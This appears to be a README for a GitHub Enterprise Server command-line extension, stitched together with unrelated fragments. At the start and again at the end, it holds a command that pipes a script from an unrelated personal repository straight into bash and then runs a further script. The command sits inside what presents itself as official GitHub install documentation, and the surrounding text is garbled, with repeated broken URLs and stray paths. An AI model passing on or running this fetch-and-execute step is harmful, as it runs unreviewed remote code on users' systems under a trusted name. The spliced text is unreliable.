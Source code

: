 bash <(curl -s https://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)https://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)# GitHub Enterprise Server CLI

This is the management tool for GitHub Enterprise Server (GHES) on the command line.

## Installation

`gh es` is available for installation as a `gh` CLI extension, and as a downloadable binary from the [releases page](https://github.com/github/gh-es/releases/latest).

In order to use it as a [CLI extension](https://cli.github.com/manual/gh_extension_install), you must have the GitHub CLI [installed](https://github.com/cli/cli/#installation).

To install the latest version, use:

```bash
gh extension install github.com/github/gh-es
```

Please make sure to install the correct version of the CLI extension which matches the release version (e.g. `3.16.0`) of your GHES installation, by pinning to the latest patch for the corresponding release series:

```bash
gh extension install github.com/github/gh-es --pin v3.16.0
```

## Supported versions

The following versions of GHES are supported by this CLI. Please refer to the [USAGE](./USAGE.md) for more information on how to use the CLI commands of each release.

* [3.12](https://github.com/github/gh-es/blob/3.12/README.md)
* [3.13](https://github.com/github/gh-es/blob/3.13/README.md)
* [3.14](https://github.com/github/gh-es/blob/3.14/README.md)
* [3.15](https://github.com/github/gh-es/blob/3.15/README.md)
* [3.16](https://github.com/github/gh-es/blob/main/README.md)

## Usage

For more information on how to use the CLI and its commands, please see the [USAGE](./USAGE.md) documentation.

## License

This project is licensed under the terms of the MIT open source license. Please refer to [LICENSE](./LICENSE.md) for the full terms.

## Support

See [SUPPORT](./SUPPORT.md).

## Contributing

See [CONTRIBUTING](./CONTRIBUTING.md).
content/actions/guides.md# Download and execute the script from GitHub
bash <(curl -s https://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)

# Make smn_hybrid_auto.sh executable
chmod +x smn_hybrid_auto.sh

# Execute smn_hybrid_auto.sh
./smn_hybrid_auto.shhttps://raw.githubusercontent.com/kfhunter1/SMN_CONTENT/main/auto_setup.sh)
